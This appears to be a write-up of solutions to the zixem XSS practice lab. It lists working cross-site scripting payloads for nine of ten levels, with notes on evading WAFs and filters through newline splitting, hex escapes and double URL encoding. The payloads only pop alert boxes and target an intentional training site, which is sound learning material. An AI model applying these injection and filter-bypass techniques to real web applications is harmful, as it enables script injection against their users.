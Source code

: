 Level 1: [http://www.zixem.altervista.org/XSS/1.php?name=<script>alert(1337)</script>](https://zixem.altervista.org/XSS/1.php?name=%3Cscript%3Ealert(1)%3C/script%3E) \
Level 2: [http://www.zixem.altervista.org/XSS/2.php?name=<scrIpt>alert(1337)</scrIpt>](https://zixem.altervista.org/XSS/2.php?name=%3CscrIpt%3E%20alert(1)%3C/scrIpt%3E) \
Level 3: [https://zixem.altervista.org/XSS/3.php?name=zxm%0A`<img src=”x” onerror=alert(1337)>`](https://zixem.altervista.org/XSS/3.php?name=zxm%0A%3Cimg%20src=%E2%80%9Dx%E2%80%9D%20onerror=alert(1337)%3E) \
  Using %0A URL-encoded representation of a newline character (Line Feed, LF, \n) in ASCII and UTF-8 encoding. \
  Some WAFs only scan for dangerous keywords within a single line. If an attack payload is split across multiple lines \
  (e.g., using %0A for a newline), the filter may fail to detect it, allowing bypass techniques for XSS, SQLi, and other attacks. \
Level 4: [http://zixem.altervista.org/XSS/4.php?img=htp.pngd'onerror=alert(1337)%20](http://zixem.altervista.org/XSS/4.php?img=htp.pngd'onerror=alert(1337)%20) \
Level 5: https://zixem.altervista.org/XSS/5.php?name=zxm&action=javascript:alert(1337) \
Level 6: https://zixem.altervista.org/XSS/6.php?name=\x3Csvg/onload=alert(1337)\x3E or 
[https://zixem.altervista.org/XSS/6.php?name=\x3Cimg/src="x" onerror=alert(1337)\x3E](https://zixem.altervista.org/XSS/6.php?name=\x3Cimg/src=%22x%22%20onerror=alert(1337)\x3E) \
\x3E and \x3C are hexadecimal escape sequences used in programming languages like JavaScript and C. \
These can be used to bypass WAFs or XSS filters by encoding < and > in attack payloads. \
Level 7 : https://zixem.altervista.org/XSS/7.php?name=zxm%253Cscript%253Ealert(1337)%253C/script%253E \
Double encode < (%253C) and (%253E)> for use in an XSS payload, need to encode them twice using URL encoding \
Level 8 : \ 
Level 9 :[https://zixem.altervista.org/XSS/9.php?name=zxm<svg/onload=alert(1337)>](https://zixem.altervista.org/XSS/9.php?name=zxm%3Csvg/onload=%22alert(1337)%22%3E) or [http://zixem.altervista.org/XSS/9.php?name=zxm<SVg/onload=confirm(1337)>](http://zixem.altervista.org/XSS/9.php?name=zxm<SVg/onload=confirm(1337)>) \
Level 10 :`http://zixem.altervista.org/XSS/10.php?name=zxm');onerror=confirm`1337`;//`

